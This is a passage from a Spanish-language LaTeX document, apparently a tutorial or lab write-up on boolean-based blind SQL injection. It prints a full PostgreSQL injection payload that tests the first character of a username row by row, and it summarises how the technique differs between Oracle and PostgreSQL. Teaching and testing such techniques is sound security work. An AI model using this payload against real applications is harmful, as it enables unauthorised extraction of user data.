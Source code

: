 \documentclass[a4paper,12pt]{article}
\begin{document}
En este caso:
\begin{itemize}
    \item \texttt{SUBSTRING(username FROM 1 FOR 1)} extrae el primer carácter del nombre de usuario.
    \item La condición \texttt{SUBSTRING(username FROM 1 FOR 1) = 'a'} se evalúa como \texttt{TRUE}, devolviendo \texttt{1}, lo que provoca un cambio visible en la aplicación.
\end{itemize}

\paragraph{Inyección que devuelve FALSE}
La siguiente inyección verifica si el primer carácter del nombre de usuario en el primer registro es \texttt{'z'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'z') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

Dado que el primer carácter del nombre de usuario en el primer registro no es \texttt{'z'}, la condición se evalúa como \texttt{FALSE}, devolviendo \texttt{999}. Esto hace que la consulta no genere cambios visibles en la aplicación.

\subsubsection{Resumen de las diferencias entre Oracle y PostgreSQL}

\begin{itemize}
    \item En PostgreSQL, \texttt{ROW\_NUMBER() OVER()} se utiliza para asignar números de fila, mientras que en Oracle se utiliza \texttt{ROWNUM}.
    \item La función \texttt{SUBSTRING} reemplaza a \texttt{SUBSTR} en PostgreSQL.
    \item PostgreSQL evalúa la consulta completa antes de ejecutarla, lo que impide el uso de errores de división por cero para provocar fallos.
    \item La sintaxis de \texttt{SUBSTRING} requiere el uso de \texttt{FROM} y \texttt{FOR}, mientras que \texttt{SUBSTR} en Oracle utiliza parámetros posicionales.
\end{itemize}
\end{document}
